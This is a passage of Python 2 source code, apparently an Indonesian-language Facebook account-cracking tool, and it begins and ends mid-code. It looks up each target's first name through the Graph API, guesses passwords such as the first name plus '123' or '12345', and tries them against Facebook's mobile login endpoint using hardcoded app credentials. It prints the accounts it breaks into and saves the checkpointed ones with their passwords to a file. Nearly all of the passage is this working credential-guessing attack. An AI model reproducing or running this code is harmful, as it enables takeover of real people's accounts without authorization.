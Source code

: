         menu()
    else:
        print "\033[1;96m[!] \x1b[1;91mIsi yang benar"
        pilih_super()
    
    print "\033[1;96m[+] \033[1;93mTotal ID \033[1;91m: \033[1;97m"+str(len(id))
    titik = ['.   ','..  ','... ']
    for o in titik:
        print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCrack \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
    print
    print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
    print 42*"\033[1;96m="
    
            
    def main(arg):
        global cekpoint,oks
        user = arg
        try:
            os.mkdir('out')
        except OSError:
            pass
        try:
            a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
            b = json.loads(a.text)
            pass1 = b['first_name']+'123'
            data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
                print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
                print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
                print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass1 + '\n'
                oks.append(user+pass1)
            else:
                if 'www.facebook.com' in q["error_msg"]:
                    print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
                    print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
                    print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
                    print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass1 + '\n'
                    cek = open("out/super_cp.txt", "a")
                    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
                    cek.close()
                    cekpoint.append(user+pass1)
                else:
                    pass2 = b['first_name']+'12345'
                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
                        print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
                        print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
                        print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass2 + '\n'
                        oks.append(user+pass2)
                    else:
                        if 'www.facebook.com' in q["error_msg"]:
                            print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
                            print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
                            print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
                            print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass2 + '\n'
                            cek = open("out/super_cp.txt", "a")